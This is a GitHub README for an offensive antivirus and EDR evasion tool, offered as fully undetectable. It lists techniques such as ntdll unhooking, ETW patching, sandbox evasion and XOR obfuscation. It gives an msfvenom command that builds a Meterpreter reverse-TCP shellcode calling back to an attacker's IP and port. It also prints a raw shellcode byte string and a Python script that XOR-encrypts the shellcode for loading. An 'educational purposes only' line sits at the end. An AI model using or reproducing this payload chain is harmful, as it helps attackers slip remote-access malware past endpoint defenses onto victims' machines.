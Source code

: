 # KILLER TOOL (EDR Evasion)
It's a AV/EDR Evasion tool created to bypass security tools for learning, until now the tool is FUD.

# Features:

* Module Stomping for Memory scanning evasion
* DLL Unhooking by fresh ntdll copy
* IAT Hiding and Obfuscation & API Unhooking
* ETW Patchnig for bypassing some security controls
* Included sandbox evasion techniques & Basic Anti-Debugging
* Fully obfuscated (Functions - Keys - Shellcode) by XOR-ing
* Shellcode reversed and Encrypted
* Moving payload into hallowed memory without using APIs 
* GetProcAddress & GetModuleHandle Implementation by @cocomelonc
* Runs without creating new thread & Suppoers x64 and x86 arch

# How to use it

Generate your shellcode with msfvenom tool :

      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST<IP> LPORT<PORT> -f py
      
 Then copy the output into the encryptor XOR function :
 
        data = b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

        key  = 0x50 # Put here your key as byte like for example (0x90 or 0x40 or 0x30) and more...

        print('{ ', end='')
        for i in data:
            print(hex(i ^ key), end=', ')

        print("0x0 };") # Notice that it adds one byte "0x0" to the end.

And then you can handle your decryption function, It's not easy for script kiddies ^-^, you can read more about it in my articale : 

* Part 1 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-933e50f47af5
* Part 2 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-p2-7a947f7db354
* Part 3 => https://medium.com/@0xHossam/unhooking-memory-object-hiding-3229b75618f7
* Part 4 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-p-4-162662bb630e

This is the result when running :

![image](https://user-images.githubusercontent.com/82971998/230731975-a70abd1c-279b-4e79-9e91-6b5212b7db9a.png)

# PoC (Proof-of-Concept) :

https://antiscan.me/images/result/07OkIKKhpRsG.png

![image](https://user-images.githubusercontent.com/82971998/230732045-ca2638fe-4f3c-4926-8f94-4fff817ca585.png)

# Important Notes

* First thanks to Abdallah Mohammed for helping me to develop it ^_^
* The tool is for educational purposes only
* Compile the code with visual studio compiler


